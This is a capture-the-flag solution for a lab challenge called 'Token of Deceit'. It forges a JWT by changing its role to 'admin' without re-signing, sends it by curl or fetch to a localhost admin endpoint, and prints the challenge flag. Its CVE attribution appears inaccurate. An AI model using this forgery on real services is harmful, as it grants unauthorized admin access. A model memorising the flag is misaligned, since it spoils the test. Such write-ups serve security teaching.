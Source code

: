 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
   
       •	On MacOS, press (Option + Command + J).
   
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
   
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
   
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
       {
         "username": "isabella",
         **"role": "admin",**
         "iat": 1738901843,
         "exp": 1738905443
       }
   
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
   
     c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
   
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
   
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
   
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
    
     a. The server will decode the manipulated token and grant admin access.
    
     b. The server will respond with the flag:
   
         {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
